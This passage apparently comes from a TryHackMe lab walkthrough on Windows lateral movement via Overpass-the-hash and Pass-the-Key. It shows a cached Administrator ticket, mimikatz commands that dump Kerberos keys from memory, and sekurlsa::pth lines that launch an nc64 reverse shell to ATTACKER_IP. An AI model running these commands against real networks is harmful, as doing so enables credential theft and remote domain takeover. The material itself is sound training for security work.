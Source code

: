 ```shell-session
za\bob.jenkins@THMJMP2 C:\> klist

Current LogonId is 0:0x1e43562

Cached Tickets: (1)

#0>     Client: Administrator @ ZA.TRYHACKME.COM
        Server: krbtgt/ZA.TRYHACKME.COM @ ZA.TRYHACKME.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 4/12/2022 0:28:35 (local)
        End Time:   4/12/2022 10:28:35 (local)
        Renew Time: 4/23/2022 0:28:35 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called: THMDC.za.tryhackme.com
        
```

## Overpass-the-hash / Pass-the-Key

This kind of attack is similar to PtH but applied to Kerberos networks.

When a user requests a TGT, they send a timestamp encrypted with an  encryption key derived from their password. The algorithm used to derive this key can be either DES (disabled by default on current Windows  versions), RC4, AES128 or AES256, depending on the installed Windows  version and Kerberos configuration. If we have any of those keys, we can ask the KDC for a TGT without requiring the actual password, hence the  name **Pass-the-key (PtK)**.

We can obtain the Kerberos encryption keys from memory by using mimikatz with the following commands:

```shell-session
mimikatz # privilege::debug
mimikatz # sekurlsa::ekeys
```

Depending on the available keys, we can run the following commands on mimikatz to get a reverse shell via Pass-the-Key (`nc64` is already available in THMJMP2 for your convenience):

**If we have the RC4 hash:**

```shell-session
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```

**If we have the AES128 hash:**

```shell-session
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:b65ea8151f13a31d01377f5934bf3883 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```

**If we have the AES256 hash:**
